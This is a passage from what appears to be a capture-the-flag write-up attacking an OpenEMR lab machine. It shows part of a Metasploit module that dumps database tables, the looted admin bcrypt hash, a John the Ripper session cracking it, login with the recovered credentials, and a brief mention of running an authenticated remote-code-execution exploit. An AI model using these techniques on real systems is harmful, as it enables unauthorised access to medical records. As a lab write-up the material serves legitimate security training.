         # These tables are impossible to fetch because they increase each request
        skiptables = %w[form_taskman log log_comment_encrypt]
        tables.each_with_index do |table, i|
          if skiptables.include?(table)
            print_status("Skipping table (#{i + 1}/#{num_tables}): #{table}")
          else
              if i == 290
                print_status("Dumping table (#{i + 1}/#{num_tables}): #{table}")
                table_data = walk_table(table)
                save_csv(table_data, table)
            end
          end
        end
        print_status("Dumped all tables to #{Msf::Config.loot_directory}")
      end

We rerun our module and get the looted data, this time we have the username and
a password hash!

    :::text
    kali@kali:~/$ cat /home/kali/.msf4/loot/20200516080433_default_10.10.10.188_openemr.users_se_390635.csv
    id,username,password,salt,last_update,password_history1,salt_history1,password_history2,salt_history2
    1,openemr_admin,$2a$05$l2sTLIG6GTBeyBf7TAKL6.ttEwJDmxs9bI6LXqlfCpEcY6VF6P0B.,$2a$05$l2sTLIG6GTBeyBf7TAKL6A$,2019-11-21 06:38:40,"","","",""

We load the has inside `john` the ripper and quickly get the password `xxxxxx`.

    :::text
    $ john hash
    Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
    Use the "--format=bcrypt-opencl" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
    Cost 1 (iteration count) is 32 for all loaded hashes
    Will run 8 OpenMP threads
    Proceeding with single, rules:Single
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Almost done: Processing the remaining buffered candidate passwords, if any.
    Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
    xxxxxx           (?)
    1g 0:00:00:00 DONE 2/3 (2020-05-16 14:07) 4.347g/s 5008p/s 5008c/s 5008C/s stinky..88888888
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed

We can now connect on OpenEMR using our credentials `openemr_admin:xxxxxx`.

![OpenEMR authenticated](/media/2020.xx/cache_06.png)

We then fireup the authenticated exploit for openEMR found previously. At the
same time we start a simple Python HTTP server in order to check our RCE. It
works.
